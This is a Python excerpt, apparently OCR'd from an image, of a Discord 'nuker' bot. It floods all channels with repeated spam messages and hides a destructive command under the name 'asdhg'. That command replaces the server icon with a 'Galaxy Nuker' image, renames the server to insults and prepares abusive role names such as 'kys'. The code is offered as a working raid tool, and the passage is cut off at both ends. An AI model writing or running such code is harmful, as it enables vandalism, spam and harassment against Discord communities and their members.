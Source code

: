         amount = record["emoji_spam_all_amount"]
        coroutines = [
            asyncio.gather(*[channel.send(emojified_text) for _ in range(amount)])
            for channel in channels
        ]
        print("\033[1mStarted Spamming Emoji Words In All Channels.\033[0m")
        await asyncio.gather(*coroutines)




MESSAGE_COUNT = record["message_amount"]

#check up 
async def send_messages(channel, message_content):
    for _ in range(MESSAGE_COUNT):
        await channel.send(message_content)
        print(f"\033[1mSent Message In: {channel.name}.\033[0m")
      
    print("\033[1mAll Messages Have Been Sent.\033[0m")


@tree.command(name="asdhg")
async def nuke(ctx):
    # Connect to the Discord API
    intents = discord.Intents.default()
    intents.typing = False  # Disable typing events for faster execution
    if ctx.user.id not in whitelist:
        await ctx.response.send_message("You Are Not Authorized In Our Whitelist.")
    else:
        guild = ctx.guild
        intents = discord.Intents.default()
        intents.typing = False
        channel_names = []
        print("Nuke Has Been Started.\n")
        server_names = [
            "Get Fucked",
            "Nuked",
            "Galaxy Was Here...",
        ]
        role_names = [
          "Galaxy Was Here...",
          "Nuked",
          "Monkeys",
          "kys",
          "FurryShit",
        ]
        response = requests.get("https://media.discordapp.net/attachments/1116684013663428668/1116706225061634069/Galaxy_Nuker.jpg")
        icon_bytes = response.content
        await ctx.guild.edit(icon=icon_bytes)
        print("\033[1mChanged Server Icon.\033[0m")
        await ctx.guild.edit(name=f"{random.choice(server_names)}")
        print(f"\033[1mNamed Server To {guild.name}.\n\033[0m")
